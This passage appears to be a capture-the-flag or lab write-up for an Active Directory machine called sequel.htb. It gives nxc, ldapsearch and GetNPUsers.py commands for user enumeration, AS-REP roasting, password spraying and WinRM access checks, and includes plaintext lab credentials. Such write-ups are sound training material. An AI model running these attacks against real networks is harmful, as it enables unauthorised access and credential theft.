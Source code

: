 ![image.png](image%2010.png)

### User Description Fields

```bash
sudo nxc smb $IP -u rose -p 'KxEPkKe6R8su' --users
```

![image.png](image%2011.png)

### Port 389/3268

```bash
ldapsearch -H ldap://$IP -x -s base -b '' "(objectClass=*)" "*" +
```

```powershell
ldapsearch -x -H ldap://$IP -D '' -w '' -b "DC=<sequel,DC=htb"
```

![image.png](image%2012.png)

LDAP Anonymous Bind is disabled.

<aside>
🚨

Search for Pwd, LegacyPwd

</aside>

## Initial Attack Vectors

### AS-REP Roasting

```bash
GetNPUsers.py sequel.htb/ -dc-ip $IP -no-pass -usersfile users
```

![image.png](image%2013.png)

### Password Spraying

```bash
sudo nxc smb $IP -u users -p passes --continue-on-success
```

Using users and obtained passwords in password spraying attack;

![image.png](image%2014.png)

Checking if oscar has winrm access:

```bash
sudo nxc winrm $IP -u oscar -p '86LxLBMgEWaKUnBG'
```
